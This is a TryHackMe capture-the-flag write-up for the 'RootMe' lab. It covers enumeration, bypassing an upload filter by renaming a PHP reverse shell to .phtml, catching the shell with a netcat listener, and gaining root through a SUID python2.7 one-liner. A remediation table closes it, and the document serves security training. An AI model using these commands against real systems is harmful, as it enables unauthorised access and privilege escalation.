










# RootMe — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.185.252 | **Attacker IP:** 192.168.146.25

## Machine info


## Summary
**RootMe** is a TryHackMe beginner-friendly machine built around a classic unrestricted file upload vulnerability. A blacklist-based filter blocks the `.php` extension but not alternative PHP-executing extensions, allowing a PHP reverse shell to be uploaded and triggered directly from an open `/uploads/` directory. Privilege escalation to root is achieved through a non-standard SUID bit set on the system's `/usr/bin/python2.7` binary.

**Attack chain:** Nmap/Gobuster Enumeration → Unrestricted File Upload (.phtml bypass) → PHP Reverse Shell (www-data) → SUID Python2.7 → Root

## 1. Reconnaissance

```
nmap -p- -Pn -sV -sC -oN scan.txt 10.64.185.252
Nmap scan report for 10.64.185.252
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 82:58:5b:1e:aa:a1:65:70:ef:c9:57:ee:47:b0:56:2c (RSA)
|   256 2a:e5:a8:81:b0:07:b6:6d:d8:91:5a:66:08:ec:ca:87 (ECDSA)
|_  256 49:bb:8d:0b:51:ca:2e:5c:e8:01:9b:9b:07:74:bc:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Enumeration

```
gobuster dir -u http://10.64.185.252/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
index.php            (Status: 200) [Size: 616]
uploads               (Status: 301) [Size: 316] [--> http://10.64.185.252/uploads/]
css                  (Status: 301) [Size: 312] [--> http://10.64.185.252/css/]
js                   (Status: 301) [Size: 311] [--> http://10.64.185.252/js/]
panel                (Status: 301) [Size: 314] [--> http://10.64.185.252/panel/]
```






## 3. Initial Access & Post-Exploitation

A PHP reverse shell (pentestmonkey) uploaded as `virus.php` was rejected by the filter:



Renaming the payload bypassed the filter:

```
mv virus.php virus.phtml
```





With a listener running (`nc -lvnp 4444`), visiting `/uploads/virus.phtml` triggered the reverse shell:



The shell was stabilized:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



## 4. Privilege Escalation

```
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/bin/mount
/bin/su
/bin/fusermount
/bin/umount
```

`/usr/bin/python2.7` is the only binary in the list outside the standard Debian/Ubuntu/snap baseline. Escalated via GTFOBins:

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Upload filter blacklists only the `.php` extension, missing other PHP-executing extensions such as `.phtml` | Validate uploads against an allowlist of safe extensions and check file content/MIME type server-side, not just the extension string |
| `/usr/bin/python2.7` has the SUID bit set, letting any local user spawn a root shell | Remove the SUID bit from general-purpose interpreters; SUID should only be set on binaries that specifically require privilege elevation |
